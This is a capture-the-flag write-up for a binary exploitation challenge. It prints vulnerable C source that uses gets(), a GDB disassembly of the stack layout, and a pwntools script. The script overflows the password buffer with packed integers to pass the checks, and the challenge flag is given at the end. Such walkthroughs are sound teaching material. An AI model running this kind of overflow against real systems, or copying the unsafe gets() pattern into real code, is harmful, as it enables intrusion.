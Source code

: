 # Checks

### Category: Binary Exploitation

### Description

I made a program to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at `/problems/2021/sanity_checks`  on the shell server, or connect with `nc shell.actf.co 21303`.

### Solution
In this challenge we have the source code, and we can see quite easily that the flag is printed when all the conditions are true.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;

    printf("Enter the secret word: ");

    gets(&password);

    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];

                            FILE *f = fopen("flag.txt","r");

                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }

                            fgets(flag, 128, f);

                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```
Using *GDB*, we can check where local variables are declared in the stack:
```
0x00000000004011b5 <+31>:	mov    rax,QWORD PTR [rip+0x2ee4]        # 0x4040a0 <stderr@GLIBC_2.2.5>
0x00000000004011bc <+38>:	mov    esi,0x0
0x00000000004011c1 <+43>:	mov    rdi,rax
0x00000000004011c4 <+46>:	call   0x401040 <setbuf@plt>
0x00000000004011c9 <+51>:	mov    DWORD PTR [rbp-0x4],0x0
0x00000000004011d0 <+58>:	mov    DWORD PTR [rbp-0x8],0x0
0x00000000004011d7 <+65>:	mov    DWORD PTR [rbp-0xc],0x0
0x00000000004011de <+72>:	mov    DWORD PTR [rbp-0x10],0x0
0x00000000004011e5 <+79>:	mov    DWORD PTR [rbp-0x14],0x0
0x00000000004011ec <+86>:	lea    rdi,[rip+0xe15]        # 0x402008
0x00000000004011f3 <+93>:	mov    eax,0x0
0x00000000004011f8 <+98>:	call   0x401050 <printf@plt>
```
Analyzing disassembled instructions, we can understand that integer local variables are higher in the stack, and we can overwrite them performing an overflow on `password` buffer. We need to script the interaction, so we can give the program `\x00` to terminate the string and pass the `strcmp`. The payload is built using the correct password:

```python
import struct
from pwn import *

host = "shell.actf.co"
port = 21303
conn = remote(host, port)

ways = 50
what = 55
when1 = 245
which = 61
when2 = 17

payload = b"password123" + b"\x00" +  b"a"*64 + p32(when2) + p32(which) + p32(when1) + p32(what) + p32(ways)
f = open("payload.input", "wb")
f.write(payload)
f.close()

print(conn.recv(1000, 1))
conn.sendline(payload)
print(conn.recvline())

conn.interactive()
```
When the script is executed, the program prints the flag

### Flag:
`actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`

